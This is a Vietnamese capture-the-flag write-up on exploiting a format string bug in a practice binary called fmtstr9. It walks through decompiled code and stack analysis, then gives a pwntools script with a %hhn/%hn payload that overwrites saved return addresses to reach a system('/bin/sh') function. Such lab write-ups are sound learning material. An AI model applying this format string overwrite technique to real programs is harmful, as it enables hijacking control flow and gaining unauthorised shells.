 # Format String - Dùng con trỏ stack có sẵn để thay đổi dữ liệu

*Khi bộ nhớ không còn ở trên stack, ta không thể đưa các địa chỉ cần ghi lên stack một cách dễ dàng được. Tuy nhiên, với các con trỏ stack có sẵn trên stack, ta có thể ghi thêm dữ liệu lên đó để có thể sử dụng và tạo thành một chuỗi format string ghi đè lên nhau. Việc đó cần phải kết hợp giữa dạng full form và short form của format string để đảm bảo dữ liệu được ghi đè chính xác*

**ida:**

```c

unsigned __int64 run()
{
  int v1; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("Guessing game!");
  puts("1. Play");
  puts("2. Exit");
  printf("> ");
  __isoc99_scanf("%u", &v1);
  getchar();
  if ( v1 == 1 )
  {
    play();
  }
  else if ( v1 == 2 )
  {
    exit(0);
  }
  return __readfsqword(0x28u) ^ v2;
}


unsigned __int64 play()
{
  unsigned int v1; // [rsp+8h] [rbp-18h] BYREF
  unsigned int v2; // [rsp+Ch] [rbp-14h]
  char *s; // [rsp+10h] [rbp-10h]
  unsigned __int64 v4; // [rsp+18h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  s = (char *)malloc(0x40uLL);
  printf("Your name: ");
  fgets(s, 64, stdin);
  printf("Welcome ");
  printf(s);
  v2 = rand();
  printf("You guess: ");
  __isoc99_scanf("%u", &v1);
  getchar();
  if ( v2 <= v1 )
  {
    if ( v2 >= v1 )
      puts("Congratulation, you win!");
    else
      puts("Too large!");
  }
  else
  {
    puts("Too small!");
  }
  return __readfsqword(0x28u) ^ v4;
}

int get_shell()
{
  return system("/bin/sh");
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  init(argc, argv, envp);
  run();
  return 0;
}


```

**tại hàm play ta thấy có lỗi fmt, hàm get_shell có system("/bin/sh") nên ta sẽ tập trung khai thác vào đây**

checks:

![image](https://github.com/gookoosss/CTF/assets/128712571/7b1b832f-2d21-44c8-934a-f42696f72ce2)


địa chỉ tĩnh rồi nên ta ko cần leak địa chỉ exe

tại hàm play ta thấy **s = (char *)malloc(0x40uLL)**; mà ta nhập vào biến s , chứng tỏ giá trị ta nhập vào sẽ được gán vào địa chỉ heap chứ ko phải stack, h ta debug để xem thử:

![image](https://github.com/gookoosss/CTF/assets/128712571/7be3e324-6283-4f10-8435-1e2cb672fd28)


ta nhập bao nhiêu đi chăng nữa cũng ko ảnh hưởng đến stack, đồng nghĩa với việc ret2win và ret2libc là ko thể

**bây giờ ta tel rồi cùng phân tích stack:**

![image](https://github.com/gookoosss/CTF/assets/128712571/bff024e2-79fb-480b-9ac7-7446daf4bb9e)


- **0x007fffffffe0b8** là rip của hàm main
- **0x007fffffffe0a8** là rip của hàm run 
- **0x007fffffffe088** là rip của hàm play

do dữ liệu ta nhập vào nằm ở địa chỉ heap nên ta ko thể thay đổi rip bằng cách tràn biến , nên ta chỉ có thể thay đổi rip bằng cách sử dụng lỗi fmtstr để thay đổi địa chỉ trỏ đến của rip

### ý tưởng

- ta để ý rbp của play 0x007fffffffe0a0 đang trỏ đến 0x007fffffffe0b0, ta có thể thay đổi thành địa chỉ stack của rip 
- sau khi ta làm xong bước trên thì stack 0x007fffffffe0a0 ở dưới cũng thay đổi theo luôn , lúc này rip đang trỏ đến hàm run, ta lại lợi dụng lỗi fmtstr nữa để thay hàm run thành get_shell
- địa chỉ stack sẽ thay đổi sau mỗi lần chạy , nên để cố định ta sẽ dùng thêm **NOASLR** 

``` python3 test.py DEBUG NOASLR ```

h ta chạy thử như này xem sao:

```python 

p.sendlineafter(b'> ', b'1')
# payload = b'%c'*8
payload = f'%{0xe0e8}c%10$hn'.encode()
payload += f'%{((exe.sym["get_shell"] + 5 ) & 0xffff) - 0xc8}c%14$hn'.encode()

p.sendlineafter(b'name: ', payload)
p.sendlineafter(b'guess: ', b'1')

```

hmm ko ra rồi, vậy chỉ có lý do là khi ta fmt thì ta đã dùng **2 lần short from** , nên khi fmt thì nó sẽ làm cả 2 cái cùng 1 lúc, vì vậy ta cần kết hợp giữ short form và full form vì fmt sẽ **ưu tiên full form trước, short form sau**

**script:**

```python3

from pwn import *


while True:
    p = process('./fmtstr9')
    exe = ELF('./fmtstr9')

    # gdb.attach(p, gdbscript = '''
    # b*play+111
    # c
    # ''' 
    # )

    # input()

    p.sendlineafter(b'> ', b'1')

    payload = b'%c'*8
    payload += f'%{0xc8 - 8}c%hhn'.encode()
    payload += f'%{((exe.sym["get_shell"] + 5 ) & 0xffff) - 0xc8}c%14$hn'.encode()

    p.sendlineafter(b'name: ', payload)
    p.sendlineafter(b'guess: ', b'1')

    try:
        p.sendline(b'echo ABCDABCD')
        p.recvuntil(b'ABCDABCD')
        break
    except:
        try:
            p.close()
        except:
            pass

p.interactive() 

```
